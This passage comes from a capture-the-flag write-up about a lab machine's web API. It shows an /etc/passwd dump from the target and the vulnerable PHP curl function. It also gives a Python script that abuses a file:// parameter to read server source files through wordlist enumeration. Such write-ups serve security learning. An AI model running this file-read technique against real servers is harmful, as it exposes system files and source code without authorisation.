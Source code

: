 ```bash
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
svc:x:1000:1000:svc:/home/svc:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
fwupd-refresh:x:113:120:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

I modified the code to take the file to download as a parameter and used it to download all the source code I could find on the server.

The code that was vulnerable was using curl to download the file.

```php
function get_url_content($url){
  $domain = parse_url($url, PHP_URL_HOST);
  if (gethostbyname($domain) === "127.0.0.1") {
    jsonify(["message" => "Unacceptable URL"]);
  }

  $ch = curl_init();
  curl_setopt($ch, CURLOPT_URL, $url);
  curl_setopt($ch,CURLOPT_CONNECTTIMEOUT,2);
  curl_setopt ($ch, CURLOPT_FOLLOWLOCATION, 0);
  curl_setopt($ch,CURLOPT_RETURNTRANSFER,1);
  $url_content =  curl_exec($ch);
  curl_close($ch);
  return $url_content;
}
```

I could not use it to get code execution. It was also validating the domain to try to prevent Server Side Request Forgery (SSRF).

I also wrote a small script to look for other endpoints in v2.

```python
import requests
import json

file = open('/usr/share/seclists/Discovery/Web-Content/api/api-endpoints-res.txt', 'r')
for line in file:
    file_to_get = line.strip()

    json_data = {
        'action': 'b64encode',
        'file_url' : f"file:///var/www/api/v2/tools/{file_to_get}/index.php"
    }

    response = requests.post('http://api.haxtables.htb/v3/tools/string/index.php', json=json_data)

    json_data = json.loads(response.text)

    if (len(json_data['data']) > 0):
        print(file_to_get)
```
